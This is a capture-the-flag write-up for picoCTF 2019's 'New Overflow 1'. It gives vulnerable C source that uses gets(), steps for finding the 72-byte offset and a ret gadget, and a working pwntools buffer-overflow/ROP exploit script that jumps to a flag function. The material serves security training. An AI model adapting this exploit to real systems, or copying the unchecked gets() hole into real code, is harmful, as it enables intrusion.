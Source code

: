 [Back](PicoFrontPage.md)

# New Overflow 1
---

### Intro
* You'll need to understand 64-bit calling conventions for this challenge

### Tools
* GEF-GDB
* Pwntools - Python3
* Ropper

### Source Code

```c
#define BUFFSIZE 64
#define FLAGSIZE 64

void flag() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("'flag.txt' missing in the current directory!\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFFSIZE];
  gets(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  puts("Welcome to 64-bit. Give me a string that gets you the flag: ");
  vuln();
  return 0;
}
```

### Analysis

Some important points:
* Working with 64-bit which translates to everything being in 8 bytes (64 bits)
* 64-bit programs store arguments in registers, not on the stack (not needed in this question though)

Start off by doing the usual, calculating how many bytes are required to overwrite the instruction pointer (`$rip`) (remember, the registers are 8 bytes now, not 4).

It should come out as 72 bytes to reach the instruction pointer.

Next, we will be searching for an appropriate ROP gadget using `ropper`
ROP gadgets are all series of instructions that conclude with a `ret` instruction.
Command: `ropper -f ./vuln`
To search for specific ROP instructions:
`ropper -f ./vuln --search "Enter instruction here"`
We don't need to store anything inside any instruction so just a normal `ret` instruction will do.

<!-- NewOverflow1Ropper -->
![Image of ropper](../Images/PicoCTF2019/NewOverflow1ropper.JPG)

Find out the address of the `flag()` function however you want (e.g., `x flag`, `disas flag`, `info functions`, etc.) and then construct your script as below.

Note: if you try to run it without the gadget, the program will get stuck at the instruction below:

<!-- NewOverflow1movaps -->
![Image of movaps](../Images/PicoCTF2019/NewOverflow1movaps.JPG

If you search the instruction up, it'll basically say that it's getting stuck because it's not aligned on a 16-byte boundary (not divisible by 16).
Since we're working with hexadecimal addresses, this means that the address has to end in a 0.

### Pwntools Script

Here is the script:

```python
from pwn import *

p = process('./vuln') # specifying the process

# variables
ret = 0x04005de	# rop gadget
flag = 0x0400767 # flag function address

# payload, p64() because 64-bit (little-endian)
payload = b'A'*72
payload += p64(ret)
payload += p64(flag)

# receive until character
p.recvuntil(b':')

# send payload as one line
p.sendline(payload)

# to get a shell
p.interactive()
```

To run it through the pico2019 server you'll need the `ssh` feature:
```python
s = ssh(host='2019shell1.picoctf.com', user='YourUsername', password='YourPassword')
p = s.process('AbsolutePathToProgram', cwd='TheWorkingDirectoryOfProgram')
```

Run the script and you should win.

[Overflow 2](overflow2writeup.md) | [New Overflow 2](newoverflow2.md)
